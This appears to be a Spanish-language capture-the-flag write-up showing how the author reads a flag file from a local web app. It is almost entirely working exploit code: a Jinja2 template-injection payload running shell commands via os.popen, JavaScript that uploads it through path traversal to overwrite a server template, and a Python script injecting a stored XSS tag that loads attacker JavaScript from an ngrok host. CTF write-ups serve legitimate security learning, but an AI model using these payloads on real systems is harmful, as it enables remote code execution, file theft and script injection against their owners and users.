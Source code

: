 Lo primero que hago (robo de PayloadAllTheThing) es el payload para leer archivos desde Jinja2
```HTML
<h1> 
    {{ namespace.__init__.__globals__.os.popen('cat ../../../../../../flag.txt').read() }} 
</h1>
```


Después robo otro código para subir archivos con js de stackoverflow 
```js
const payload = "<h1> {{ namespace.__init__.__globals__.os.popen('cat ../../../../../../flag.txt').read() }} </h1>";


var strblob =new Blob([payload], {type: 'text/plain'});
var formdata = new FormData();
formdata.append("file", strblob, "../app/application/templates/register.html");


var requestOptions = {
    method: 'POST',
    body: formdata,
    redirect: 'follow'
};


fetch("http://localhost:1337/api/firmware/upload", requestOptions)
```


Y por último programo un script para enviar todo al servidor.


```python
import requests


url = "http://localhost:1337/"


# Auth
r = requests.post(url +  "api/register", json = {"username": "frijolito", "password": "password"})
r = requests.post(url +  "api/login", json = {"username": "frijolito",  "password": "password"})


cookie = r.cookies["session"]


# Send the xxs
r = requests.post(
    url + "api/firmware/report",
    cookies = {"session": cookie},
    json = {
        "module_id": "1",
        "issue": "<script src='https://7698-181-226-248-235.sa.ngrok.io/content/fetch.js'></script>"
    }
)


# get the flag
r = requests.get(url + "register")
print(r.text)
```
